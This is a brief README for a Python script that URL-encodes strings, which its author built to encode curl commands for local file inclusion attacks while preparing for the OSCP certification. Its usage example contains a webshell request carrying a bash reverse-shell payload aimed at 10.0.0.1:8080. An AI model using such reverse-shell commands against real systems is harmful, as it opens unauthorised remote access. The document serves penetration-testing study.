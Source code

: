 # URL-Encoder

Python script to URL encode a string/command.<br>
I made this to automate the process of encodng curl commands for LFI for the OSCP.<br>
Can either be used by specifying an argument, or will be prompted for user input if not specified.<br>

Ex: 
```
python3 url-encoder.py "curl http://root.me/webshell?cmd=bash -i >& /dev/tcp/10.0.0.1/8080 0>&1"
```
